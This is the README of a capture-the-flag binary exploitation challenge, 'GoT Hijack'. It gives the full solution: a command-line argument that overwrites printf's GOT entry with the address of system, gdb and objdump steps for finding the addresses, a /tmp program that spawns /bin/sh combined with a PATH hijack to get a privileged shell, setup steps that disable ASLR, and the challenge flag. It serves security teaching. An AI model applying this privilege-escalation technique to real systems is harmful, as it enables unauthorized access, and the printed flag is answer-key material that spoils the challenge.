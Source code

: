 # GoT Hijack

In this challenge competitors are provided with an executable binary running on a remote server and they must use the binary to retrieve access to a file that they do not have permission to.

## Solution

The command to exploit this challenge is

    ./GoT AAAAAAAAAAAAAAAAAA`printf "\x10\xa0\x04\x08"` `printf "\x70\x5e\xe6\xf7"`

However the addresses must be updated every time the challenge is moved between machines. Also note that the addresses are little-endian. The first address is the address to printf, which can be found by running

    objdump --dynamic-reloc ./got | grep printf

The second is the address to system, which can be found by running

    gdb GoT
    (gdb) b main
    (gdb) r hello hi
    (gdb) p system

Next, a file will need to be created in the /tmp directory (which can be done automatically with the following commands)

    cat << END_TAG | dd of=/tmp/Calculating.c
    int main()
    {
            system("/bin/sh");
    }
    END_TAG
    gcc -o /tmp/Calculating /tmp/Calculating.c
    chmod +x /tmp/Calculating

The path will need to then be enhanced to include tmp

    export PATH=:/tmp:$PATH

Now the exploit command can be run again and you will be dropped into a shell with new permissions.

## Distribution

To run/set-up the challenge:

    sudo sh -c "echo 'kernel.randomize_va_space=0' >> /etc/sysctl.conf"
    sudo sysctl -p
    sudo docker build -t got-hijack .
    sudo docker run -d -p 2222:22 --read-only --restart=always --cap-add=SYS_PTRACE --tmpfs /tmp:exec got-hijack

    rm ~/.ssh/known_hosts
    ssh challenge@localhost -p2222

Note: ASLR **must** to be disabled on the server this challenge is run on.

## Flag

ce121dcdecf4ce8d015b1cbc2afd8968